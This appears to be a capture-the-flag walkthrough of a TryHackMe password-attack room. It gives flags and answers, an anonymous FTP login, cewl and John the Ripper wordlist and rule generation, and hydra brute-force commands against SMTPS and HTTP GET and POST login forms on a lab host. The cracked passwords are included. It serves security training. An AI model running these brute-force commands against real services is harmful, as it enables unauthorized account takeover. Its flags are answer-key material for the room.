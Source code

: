 ## Task - 6: Offline Attacks - 

**Q: What syntax would you use to create a rule to produce the following: "S[Word]NN  where N is Number and S is a symbol of !@?**

Answer: Az"[0-9][0-9]"^[!@]

## Task - 7: Deploy the VM , just reading 

## Task -8 : Online password attacks

**Q: Can you guess the FTP credentials without brute-forcing? What is the flag?**

Answer: THM{d0abe799f25738ad739c20301aed357b}

Run following command : 
ftp $your_IP
password : anonymous
Hit enter again 
ls (to see files),  and get filename
exit. (you'll have file in current direct flag.txt , cat flag.txt)

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the**
**previous task. email: pittman@clinic.thmredteam.com against 10.10.126.195:465 (SMTPS)**

**Q: What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9].**

Answer: !multidisciplinary00

Solution: use this command to generate custom passwrod from this website : cewl -w wordlist.txt -d 8 -m 5 https://clinic.thmredteam.com/
--> nano /etc/john/john.conf
--> add this rule as mentioned in question in john  configuration file : [List.Rule:Myrules] Az"[0-9][0-9]"^[!@]
--> run this command john --wordlist=wordlist.txt --rules=myrules --stdout > dictionary.txt
(john will create rule based new word list following rules mentioned in john and from the wordlist of website : rule-based wordlist now you've)
--> hydra -l pittman@clinic.thmredteam.com -P dictionary.txt smtp://10.10.126.195:465 -v

**Q: Perform a brute-forcing attack against the phillips account for the login page at http://10.10.126.195/login-get using hydra? What is the flag?**

Answer: THM{33c5d4954da881814420f3ba39772644}

Solution: run the coomand : hydra -l phillips -P wordlist.lst 10.10.126.195 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
You'll find the password below : 80][http-get-form] host: 10.10.126.195   login: phillips   password: Paracetamol
access the url and you'll have flag

**Q: Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.126.195/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**

Answer: THM{f8e3750cc0ccbb863f2706a3b2933227}

Solution: john --wordlist=clinic_wordlist.lst --rules=single-extra -stdout > newwordlist.lst ( to generate rule-based wordlist)
To find the password : hydra -l burgess -P newdictionary.lst 10.10.126.195 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -v
Password : OxytocinnicotyxO
Use this password to login onto the link  and have flag.
